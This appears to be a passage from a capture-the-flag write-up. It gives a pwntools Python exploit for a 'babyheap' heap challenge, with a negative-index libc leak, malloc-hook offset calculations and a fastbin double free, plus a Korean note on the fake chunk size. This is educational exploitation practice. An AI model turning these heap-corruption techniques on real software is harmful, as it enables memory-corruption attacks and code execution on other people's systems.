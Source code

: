 ```python
from pwn import *

r = process("./babyheap")
# r = remote("ctf.j0n9hyun.xyz", 3030)

offset_setvbuf = 0x6fe70 # offset of setvbuf() from libc base
offset_mallochook = 0x3c4b10 # offset of malloc hook from libc base

def Malloc(size, content):
    r.recvuntil("> ")
    r.sendline("1")
    r.recvuntil("size: ")
    r.sendline(str(size))
    r.recvuntil("content: ")
    r.send(content)

def Free(index):
    r.recvuntil("> ")
    r.sendline("2")
    r.recvuntil("index: ")
    pause()
    r.sendline(str(index))

def Show(index):
    r.recvuntil("> ")
    r.sendline("3")
    r.recvuntil("index: ")
    r.sendline(str(index))

Show(-262978) # libc leak
addr_setvbuf = u64(r.recv(6).ljust(8, "\x00")) # address of setvbuf()
log.info("address of setvbuf() : " + hex(addr_setvbuf))
addr_libc = addr_setvbuf - offset_setvbuf # address of libc base
log.info("address of libc base : " + hex(addr_libc))
addr_mallochook = addr_libc + offset_mallochook # address of malloc hook
log.info("address of malloc hook : " + hex(addr_mallochook))
```

---

```python
Malloc(0x60, "AAAA") # index: 0
Malloc(0x60, "BBBB") # index: 1
Free(0)
Free(1)
Free(0)
Malloc(0x60, p64(addr_mallochook - 0x23)) # index: 2
Malloc(0x60, "AAAA") # index: 3
Malloc(0x60, "BBBB") # index: 4
```

malloc hook에 할당받을 fake chunk의 size 영역에 `0x7f`라는 값이 쓰여 있기 때문에 size가 `0x70`인 fastbin을 사용해야 하고, 그러면 `malloc(0x60)`으로 할당을 요청하면 된다.
